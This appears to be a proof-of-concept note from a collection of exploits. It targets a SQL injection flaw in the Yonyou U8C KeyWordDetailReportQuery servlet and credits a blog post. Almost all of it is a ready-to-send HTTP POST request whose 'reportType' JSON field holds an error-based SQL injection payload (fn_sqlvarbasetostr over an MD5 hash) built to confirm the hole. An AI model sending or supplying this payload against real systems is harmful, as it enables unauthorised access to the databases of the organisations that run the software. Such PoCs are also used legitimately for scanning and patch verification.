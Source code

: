 # yonyou_u8c_KeyWordDetailReportQuery_sqli

from:https://blog.csdn.net/luochen2436/article/details/135268293
24/01/02 @2

```
POST /servlet/~iufo/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Content-Length: 207
Accept: */*
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Accept-Language: zh-CN,zh;q=0.8
Cache-Control: max-age=0
Connection: keep-alive
Content-Type: application/json
Accept-Encoding: gzip
Connection: close
SL-CE-SUID: 29

{"reportType": "' AND 2780 IN (select sys.fn_sqlvarbasetostr(HashBytes('MD5','123456'))) AND 'njGF'='njGF", "usercode": "18701014496", "keyword": [{"keywordPk": "1", "keywordValue": "1", "keywordIndex": 1}]}

```
